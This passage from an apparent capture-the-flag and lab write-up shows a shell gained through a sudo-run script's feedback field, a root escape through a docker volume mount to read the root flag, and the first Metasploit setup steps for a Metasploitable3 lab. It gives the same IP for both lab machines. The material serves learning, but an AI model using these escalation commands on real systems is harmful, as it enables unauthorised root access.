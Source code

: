 - I run the script as jerry

    ```
    sudo -u jerry /home/robin/project/feedback.sh
    ```

- I type bash in the feedback field giving me access to console as jerry

  ```
  whoami
  jerry
  ```

- I didn't know what to do now, but the article helped me further
- as Jerry had docker privileges, we could run alpine container in interactive shell and mount / to /mnt, giving access to root

    ```
    docker run -it --rm -v /:/mnt alpine

    whoami
    root

    ls /mnt/root
    root.txt

    cat root.txt

    ==> Congratulations <==

    You Reached Root...!

    Root-Flag
    ```

- This was fun exercise and I definitely learned something new!

---

## d) Install and hack Metasploitable3

- I created development setup on Vagrant, which has Metasploitable3(172.28.128.3) and Kali(172.28.128.3) instances, see [Vagrnantfile](../Vagrantfile)
- I logged into Kali machine and initiated the Metasploit database

    ```
    sudo msfdb init
    ```

- Then logged into Metasploit console

    ```
    sudo msfconsole
    ```

- created a workspace for me

    ```
    workspace -a h2-b
    ```
